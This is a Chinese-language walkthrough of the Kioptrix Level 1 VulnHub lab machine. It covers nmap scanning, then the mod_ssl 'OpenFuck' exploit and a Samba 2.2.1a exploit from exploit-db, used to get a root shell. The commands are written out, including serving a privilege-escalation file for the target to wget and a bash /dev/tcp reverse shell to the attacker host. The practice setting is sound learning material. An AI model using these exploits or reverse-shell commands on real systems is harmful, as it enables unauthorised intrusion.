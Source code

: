 # 环境

来自[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

解压之后，`Kioptix Level 1.vmx`修改启动配置，`ethernet0.connectionType = "Bridged"`改成`nat`

# 信息收集

## 发现主机

工具nmap、arp-scan

```bash
nmap -sn 192.168.88.0/24
sudo arp-scan -l  #可以用这个，可以获取ip和mac
```

![image-20240611213509502](image/image-20240611213509502.png)

发现`192.168.88.11`是我们的目标靶机

## 端口扫描

工具nmap、masscan

```bash
sudo nmap -p- -sS 192.168.88.11
```

![image-20240611220942688](image/image-20240611220942688.png)

## 服务详细扫描

```bash
sudo nmap -p22,80,111,139,443,1024 -sV 192.168.88.11
```

结果，攻击面80>443>139>22

![image-20240615133839095](image/image-20240615133839095.png)

# exp

## getshell_1

访问80端口发现，出现apache测试页面，乍一看没啥可利用的，但`apache/1.3.20`,`mod_ssl/2.8.4`版本较低，搜索漏洞

```bash
searchsploit mod_ssl
```

![image-20240615134822632](image/image-20240615134822632.png)

调用脚本

```bash
searchsploit -m 47080  #或者使用cp /usr/share/exploitdb/exploits/unix/remote/47080.c ./
sudo apt install libssl-dev
gcc -o exp 47080.c -lcrypto
./exp #会告诉你参数
```

查看脚本的提示，所需依赖`libssl-dev`，以及编译命令`gcc -o OpenFuck 47080.c -lcrypto`

![image-20240615141225657](image/image-20240615141225657.png)

参数目标系统、目标IP、端口、延迟`./OpenFuck 0x6b 192.168.88.11 443 -c 40`成功拿shell

![image-20240615141958706](image/image-20240615141958706.png)

![image-20240615142839158](image/image-20240615142839158.png)

按道理是应该是root权限，可能是ptrace-kmod.c没有执行成功，查看脚本，发现这个wget没有执行成功，我们开启服务，设法让目标可以下载我们的提取脚本

![image-20240615143215752](image/image-20240615143215752.png)

我们使用编写一个http-server服务，让靶机可以下载我们的脚本

```python
import http.server
import socketserver
# 定义端口号
PORT = 80
# 使用简单的 HTTP 处理程序
Handler = http.server.SimpleHTTPRequestHandler
# 启动服务器
with socketserver.TCPServer(("", PORT), Handler) as httpd:
    print("在端口", PORT, "启动 HTTP 服务器...")
    # 保持服务器运行，直到手动中断
    httpd.serve_forever()
```

![image-20240615150214629](image/image-20240615150214629.png)

或者直接`python -m http.server 80`

`wget 192.168.88.10/ptrace-kmod.c`，我们再次连接，即可是root权限

![image-20240615150148087](image/image-20240615150148087.png)

接下来进行反弹shell，在kali执行`nc -lvvp 8888`，在靶机执行`bash -i >& /dev/tcp/192.168.88.10/8888 0>&1`

![image-20240615151136698](image/image-20240615151136698.png)

## getshell_2

除了apache的mod_ssl之外，还有一个139端口Samba服务，先探测具体版本，可以使用msfconsle

```bash
msfconsole
search smb_version
set rhost 192.168.88.11
run
```

Samba版本是2.2.1a

![image-20240615151909816](image/image-20240615151909816.png)

利用漏洞脚本

```bash
searchsploit samba 2.2
searchsploit -m 10 #或者使用cp /usr/share/exploitdb/exploits/multiple/remote/10.c ./
gcc 10.c -o samba_exp
./samba_exp -b 0 -v 192.168.88.11
```

![image-20240615153034836](image/image-20240615153034836.png)

